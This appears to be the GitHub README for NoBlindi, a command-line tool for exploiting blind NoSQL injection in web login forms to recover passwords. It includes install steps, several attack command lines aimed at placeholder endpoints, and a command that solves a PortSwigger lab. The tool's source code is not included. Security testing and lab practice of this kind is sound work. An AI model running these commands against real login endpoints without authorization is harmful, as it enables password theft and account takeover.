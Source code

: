 # NoBlindi
This tool is designed for testing the security of NoSQL databases in web applications. It focuses on identifying and exploiting blind NoSQL injection vulnerabilities to recover passwords. It's a command-line tool, making it easy to integrate into various testing workflows.
<p align="center"><img src="https://github.com/YasserREED/NoBlindi/assets/79475504/0b3ca6b0-752f-48fe-bc11-362b89f2ece8"></p>


![](https://img.shields.io/badge/Version-%20v1.0.0-blue)
![](https://img.shields.io/badge/Twitter-%20YasserREED-blue)
![](https://img.shields.io/badge/YouTube-%20YasserRED-red)

#### Features:
- **Blind NoSQL Injection for Password Recovery**
- **Customizable Parameters for Targeted Attacks**
- **Simple Command-Line Interface**
- **Cross-Platform Compatibility and Support**

## How to Download NoBlindi in Linux

### Copy this Link
```
sudo git clone https://github.com/YasserREED/NoBlindi.git
```
### Enter The File
```
cd NoBlindi/
```
### Download requirement library
```
pip install -r requirements.txt
```
### Open the tool by `python3`
```
python3 NoBlindi.py -h
```

<br>

## NoBlindi Help Guide

```
python3 NoBlindi.py -h
```

```
python3 NoBlindi.py -u https://example.com/login -uf 'username' -pf password -rn 'admin' -b '{"username":"", "password":""}' -sc 200 -f "Invalid credentials"
python3 NoBlindi.py -u https://example.com/login -uf 'user' -un 'admin' -pf 'pass' -b '{"user":"", "pass":"", "redirect":"/dashboard", "security_question":"", "security_answer":""}' -sc 302 --redirect -sh "Authorization" -f "Login failed"
python3 NoBlindi.py -u https://examplecorp.com/admin -uf 'login' -pf password -un 'superadmin' -b '{"login":"", "password":"start123!", "last_active_timestamp":"", "login_count":"", "account_status":"active"}' -sc 200 -f "Access Denied"
python3 NoBlindi.py -u https://internalsite.example.org/login -uf 'username' -un 'root' -b '{"username":"", "password":"", "otp_code":"", "session_expiry":"1hr", "browser_info":"Mozilla/5.0"}' -sc 200 - "*+.?|{}[]"
python3 NoBlindi.py -u https://api.example.com/v1/authenticate -uf 'email' -un 'johndoe@example.com' -pf 'pwd' -b '{"email":"", "pwd":"", "api_key":"", "request_time":"2023-03-15T12:00:00Z", "client_version":"1.2.3"}' -sc 200 -sh "JWT-Token" -f "Unauthorized
```

<br>

## Commands Examples

### Simple example:
```
python3 NoBlindi.py -u https://www.attacker.com/login -uf 'username' -pf password --username 'admin' -b '{"username":"", "password":""}'
```

### Make custom condition to check will status code 200 and login failed message:
```
python3 NoBlindi.py -u https://www.attacker.com/login -uf 'username' -pf password --username 'admin' -b '{"username":"", "password":""}' -success_code 200 -f "Invalid username or password"
```

<br>

## Portswigger Lab

1- Access the Lab: https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication

2- Use this command to solve the protswigger lab and retrieve the admin password:

```
python3 NoBlindi.py -u https://0a7a0055033f04f080539ef200bc00b5.web-security-academy.net/login  -uf 'username' -pf password -rn 'admin' -b '{"username":"", "password":""}' -sc 302 -rn 'admin' -r
```

### When we run the command:
![image](https://github.com/YasserREED/NoBlindi/assets/79475504/4a8d5682-ab1e-411c-94c4-f6803fdaaadf)

### After the tool is finished:
![image](https://github.com/YasserREED/NoBlindi/assets/79475504/fa5cc2ce-7654-4dac-b9b3-beb6af768fab)

---
<p align="center"> Enjoy! :heart_on_fire: </p>
